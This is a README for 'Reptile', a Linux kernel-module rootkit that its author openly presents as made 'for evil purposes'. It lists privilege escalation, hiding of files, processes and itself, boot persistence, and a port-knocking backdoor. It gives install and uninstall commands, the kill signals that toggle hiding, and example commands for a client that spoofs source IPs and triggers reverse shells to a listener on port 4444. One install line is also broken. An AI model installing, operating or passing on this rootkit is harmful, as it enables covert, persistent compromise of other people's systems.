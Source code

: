 # Reptile

Reptile is a LKM rootkit for evil purposes. If you are searching stuff only for study purposes, see the [demonstration codes](https://github.com/f0rb1dd3n/papers/tree/master/rootkit_demonstration).

## Features

- Give root to unprivileged users
- Hide files and directories
- Hide files contents
- Hide processes
- Hide himself
- Boot persistence
- Heaven's door - A ICMP/UDP/TCP port-knocking backdoor
- Client to knock on heaven's door :D
    
## Install
```
apt-get install linux-headers-$(uname -r)
https://github.com/f0rb1dd3n/Reptile.git
cd Reptile
./installer.sh install
```
## Uninstall
```
kill -50 0
rmmod reptile_mod
./install.sh uninstall
```

## Usage

Binaries will be copied to `/reptile` folder, that will be hidden by Reptile.

### Getting root privileges

<img src="https://i.imgur.com/UNTqrHP.png">

### Hiding

- Hide/unhide reptile module: `kill -50 0`
- Hide/unhide process: `kill -49 <PID>`
- Hide files contents: `kill -51 0` and all content between the tags will be hidden

Example:
```
#<reptile> 
content to hide 
#</reptile>
```

### Knocking on heaven's door

Heaven's door is a ICMP/UDP/TCP port-knocking backdoor used by Reptile. To access the backdoor you can use the client: 
```
Knock Knock on Heaven's Door
Written by: F0rb1dd3n

Usage: ./knock_on_heaven <args>

-x      Protocol (ICMP/UDP/TCP)
-s      Source IP address (You can spoof)
-t      Target IP address
-p      Source Port
-q      Target Port
-d      Data to knock on backdoor: "<key> <reverse IP> <reverse Port>"
-l      Launch listener

[!] ICMP doesn't need ports

ICMP: ./knock_on_heaven -x icmp -s 192.168.0.2 -t 192.168.0.3 -d "F0rb1dd3n 192.168.0.4 4444" -l
UDP:  ./knock_on_heaven -x udp  -s 192.168.0.2 -t 192.168.0.3 -p 666 -q 53 -d "F0rb1dd3n 192.168.0.4 4444" -l
TCP:  ./knock_on_heaven -x tcp  -s 192.168.0.2 -t 192.168.0.3 -p 666 -q 80 -d "F0rb1dd3n 192.168.0.4 4444" -l

```
<img src="https://i.imgur.com/zvFWuXT.png">

## Disclaimer

Some functions of this module is based on another rootkits. Please see the references!

## References

- “[LKM HACKING](http://www.ouah.org/LKM_HACKING.html)”, The Hackers Choice (THC), 1999;
- https://github.com/m0nad/Diamorphine.git
- https://github.com/David-Reguera-Garcia-Dreg/enyelkm.git
- https://github.com/maK-/maK_it-Linux-Rootkit
- “[Abuse of the Linux Kernel for Fun and Profit](http://phrack.org/issues/50/5.html)”, Halflife, Phrack 50, 1997;
- https://ruinedsec.wordpress.com/2013/04/04/modifying-system-calls-dispatching-linux/

## Contributing

I am open to receiving contributions. If you can contribute with this project, discuss the contribution via e-mail or open an issue, fork the project and make a pull request. I will evaluate pull requests and merge to the project.
